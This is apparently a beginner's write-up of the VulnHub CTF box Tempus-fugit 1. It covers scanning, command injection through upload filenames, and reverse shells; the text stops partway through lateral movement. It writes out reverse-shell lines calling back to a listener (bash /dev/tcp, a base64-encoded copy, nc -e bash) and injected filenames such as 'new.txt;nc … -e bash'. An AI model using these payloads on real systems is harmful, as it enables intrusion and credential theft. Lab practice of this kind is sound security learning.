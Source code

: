 ﻿# Tempus-fugit 1

This is the first time I am attempting a CTF. I've gone through walkthroughs of few CTFs before. The resources I follow are hackingarticles.in and [ippsec.rocks](https://ippsec.rocks/?#). The box can be downloaded from [vulnhub](https://www.vulnhub.com/entry/tempus-fugit-1,346/). This is a few months old box.


# Network Scanning

I've imported the .ova file using virtualbox and put both the kali vbox and the Tempus-fugit vbox (target) in the same NATNetwork. The ip target machine can be found using `netdiscover` tool. Since my kali has an ip of 10.0.2.12 and both are in the subnet 10.0.2.0/24, we can use the range parameter in netdiscover to easily find the ip `netdiscover -r 10.0.2.0/16`. From the list of ips found, we can identify the target machine. We can then use `nmap` to find what ports are open on the target machine (its 10.0.2.14 in my case)
```
nmap -sC -sV -oA nmap/nmap 10.0.2.14
# Nmap 7.70 scan initiated Mon Feb 24 02:38:03 2020 as: nmap -sC -sV -oA nmap/nmap 10.0.2.14
Nmap scan report for 10.0.2.14
Host is up (0.00014s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.15.3
|_http-server-header: nginx/1.15.3
|_http-title: Tempus Fugit
|_http-trane-info: Problem with XML parsing of /evox/about
MAC Address: 08:00:27:22:DA:48 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 24 02:38:11 2020 -- 1 IP address (1 host up) scanned in 8.01 seconds
```
# Enumeration
From nmap data, we can see that there is a nginx web server hosted on port 80 and we can connect to it using http. The site looks pretty simple. It has a main page and upload page. There is nothing interesting from the page source, except that it looks like a template. The stuff section of the page has many cards which pop up modals. Nothing interesting here
![clicking the cards pop up these modals](https://drive.google.com/open?id=16nODx1y_MSNIkuzhSAXbKizBoofIGqoW)
The about section mentions something about an ftp server where scripts can be uploaded. This might be out point of injection.
![about section of the page](https://drive.google.com/open?id=1GAauKYFXvGzMaPG6wBDIAiECzKeOxdOX)
Next, the page has a contact us with multiple forms for name, mail, etc. But whatever the input is, the site responds with an error saying the mail server is not responding
![contactus](https://drive.google.com/open?id=1MfYpi49pcAVfM0SB_ahmNYc3l1kVVi61)
The upload page has two buttons to browse and upload files. After selecting a file, the file name gets displayed on the page. So, we can try any XSS vectors here
![browse](https://drive.google.com/open?id=1mB34RLaG-8A6tckqzlga27F35S6lDwuQ)
after the files is uploaded, the contents of the file are displayed on the page. This is interesting, so i tried to check if it executes if there's a command inside a file. But it just shows the command instead.
![command](https://drive.google.com/open?id=1nOw0gqY0uTf-PPgzt3iPhMXIg2vixeFY)
Since its just showing the contents of file, the server might just be using `cat` on the file name to do this. If that's the case, we can append a command in the filename which gets executed after `cat`. To try this, I uploaded a file 'new3.txt;whoami'. Infact, we can append multiple commands seperated by ';'. This was successful and the command `whoami` gets executed and returns root
![whoami- root](https://drive.google.com/open?id=1Zs7-kFXhi4KZGmwSn9U6zjDFr-cm1qBn)
this can be used as a command injection point to spawn a reverse shell. The best way to iterate is using burp suite's repeater. Here are some observations from uploading files with various commands in the name:
* there are two requests during the upload- a POST request with filename parameter. The response to this is a session cookie from the server, which will be passed in the second request (GET). The response to this is a html with the command executed. In case of `ls` after filename, the output html has the following:
![ls](https://drive.google.com/open?id=1bJT35FguriEU1tpBtui7f57LYU0Q2__J)
* the cookie changes everytime there is a new request
* only .txt and .rtf files can be uploaded. The server gives an error saying that only these types are accepted
* reverse shell can be created using bash - `bash -i >& /dev/tcp/10.0.2.12/9001 0<&1`, but unix doesn't allow filenames to have '/' in them. So we cannot use this. I've tried exporting command to an env variable and using it while creating a file, didn't help.
* But we don't have to create a file. Since its a parameter in the request, we can modify the request in burp repeater. But still this doesn't work and gives a 500 error![500 error](https://drive.google.com/open?id=1EzWZy9SqHfxYK16VMOxDZ2Iu5W1K82Ky)
* if there is any '.' in the command, server rejects it saying that its not a text file. So, we cannot add ip addresses in the command
* there are numerous ways to get a [reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), but all these methods need to have ip address in the command. 
* one way to eliminate the '.' and '/' is by encoding the command. `YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTIvOTAwMSAwPiYxCg==` is the base64 encoded version of `bash -i >& /dev/tcp/10.0.2.12/9001 0<&1`. I created a file and with the name `“new.txt;echo ‘YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTIvOTAwMSAwPiYxCg==’ | base64 -d > revShell”`. The plan here is to create a file (revShell) in server and then execute it with the next file - `"new.txt;bash revShell"`.  And at the same time, use `nc` to start a listener on the same port (9001) on kali using `nc -lvnp 9001`. Unfortunately, this didn't work and i don't recall why.
* I tried the same process with `nc` based reverse shell (`nc -c bash 10.0.2.12 9001`) as well. This time, the session has established, but I was unable to run any commands and the server returned error *cannot connect to FTP-server*
![session established](https://drive.google.com/open?id=1zB1t_qisexkvi-fz4jTTPuDBm262uoTd)
![FTP timeout](https://drive.google.com/open?id=1I5rVBi83Um0yFedEjntudw8QpW7MBb38)
* one more thing I wanted to try was appending another command to the filename, this time with a .txt extension. I used the filename "new.txt;nc 10.0.2.12 9001 -e bash; a.txt". This should work even though the last command `a.txt` doesn't make any sense. And it worked. This is the first time i got a reverse shell and i was too excited
![shell!! yay](https://drive.google.com/open?id=1vZaflYzAfJRosaHJ59ErBRG2TXFBh1s7)
- we can use `python -c 'import pty;pty.spawn("/bin/bash")'` to prettify the terminal
- I've also used `stty raw -echo` on the kali terminal so that I can use tabbing on this shell

The next step is to get the root flag, which is usually in /root. There's a message.txt file, but it says 'you are not done yet'
![damn!](https://drive.google.com/open?id=1zqn5gUAjgsAlXUribgqkwvB-wsM14HKJ)
Since there are some files we found with `ls` command, lets examine the files.
* most of the files are pretty normal, js and htmls
* the interesting on is the main.py, which runs a flask app to serve the uploads page. All the checks in filenames we discovered so far are coming from this file.
* it also has the credentials of ftp server. We can use it later at some point
![ftp-creds](https://drive.google.com/open?id=1KGxK3o5jlJ8sOHA9UGBOaqlx8ggfGR3u)
* to see what's going on the server, I ran [LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh). It's an amazing tool which enumerates all the useful data on the machine.
* From the linenum output, we can see that we're inside a docker container. This makes sense as there was a docker message during target bootup
![docker](https://drive.google.com/open?id=1WEzeInAosDWXVwtmqz8oSAnZWSCpFK8h)
* there are few file in the root directory- there's another file *entrypoint.sh* which looks to be creating *nginx.conf* file. There's also a *start.sh* script which runs another script */app/prestart.sh*
* another interesting grab from linenum is the history files. *.python_history* has some interesting information
![enter image description here](https://drive.google.com/open?id=1cQ2WnwVchZKoTJN9AwlPEe37TsVK1yld)
* the arp table from linenum shows few ips![enter image description here](https://drive.google.com/open?id=1V26HaWKz0MvWBnWKm-0EqRRqLaVQ0xD4)
* The FTP port should be open on one of these ips. We can check this using `nc -zv 172.19.0.100 21` command
![nc](https://drive.google.com/open?id=1LmHf9IlA1g5JtXnMEwSooo8ewOCEwLRF)
* since 172.19.0.12 has port 21 open, we can connect it using ftp. From the conf files linenum found, there are lftp files. So, server might be using lftp to connect to the FTP server. Using the credentials from main.py, I was able to login. Apart from all the files I earlier uploaded while getting reverse shell, there is a *cmscreds.txt* file which has some credentials
![cmscreds](https://drive.google.com/file/d/1L-oKHi4iTEO00K9umSZBkyrljD2G8Slk/view?usp=sharing)
* linenum also shows *resolv.conf* which has interesting 
![resolv](https://drive.google.com/file/d/1ceCDTRThj4gbTYVFcaMmiIe1fi2QzMjY/view?usp=sharing)

I spent a lot of time after this point but didn't find any leads. So, i looked up other walkthroughs where people used `add apk nmap` to install nmap and scan the ips for open ports.

